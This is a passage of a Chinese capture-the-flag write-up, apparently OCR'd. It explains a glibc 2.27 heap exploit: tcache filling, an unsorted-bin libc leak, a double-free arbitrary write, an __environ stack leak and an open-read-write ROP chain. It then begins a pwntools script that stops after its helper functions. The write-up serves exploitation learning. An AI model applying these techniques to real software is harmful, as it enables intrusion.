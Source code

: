 首先我们想到，我们可以先填满tcache，之后分配一个unsorted bin范围的chunk，通过打印该chunk的内容获取**main_arena + 0x60**的地址，**进而获得libc的地址**

> libc2.27之前unsorted bin里的chunk的fd/bk似乎是指向main_arena+0x58的，现在变成main_arena+0x60了，等有时间得去看看libc2.27的源码了…

虽然我们不能够getshell，但是依然可以通过double free进行任意地址写，~~毕竟CTF题目的要求是得到flag，不一定要得到shell，~~故考虑**通过environ变量泄漏出栈地址后在栈上构造rop链进行orw读出flag**

> PS: ORW = open + read + write（不知道谁起的缩写名…

> tips: __environ是一个保存了栈上变量地址的系统变量

通过动态调试我们容易得到`___environ`与`new()`中的返回地址间距离为0x220，**将rop链写到这个返回地址上即可接收到flag**

![image.png](img/fd9171808c2e6b572099e939518424e2.png)

![image.png](img/302f8856204de60c78026ea5564ee3f0.png)

构造payload如下：

```
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'

p = process('./pwn') 
e = ELF('./pwn')
libc = ELF('./libc-2.27.so')

note_addr = 0x6020c0
flag_addr = e.bss() + 0x500

def new(size:int, content):
    p.recvuntil(b'>> ')
    p.sendline(b'1')
    p.recvuntil(b'size?')
    p.sendline(str(size).encode())
    p.recvuntil(b'content?')
    p.send(content)

def delete(index:int):
    p.recvuntil(b'>> ')
    p.sendline(b'2')
    p.recvuntil(b'index ?')
    p.sendline(str(index).encode())

def dump(index:int):
    p.recvuntil(b'>> ')
```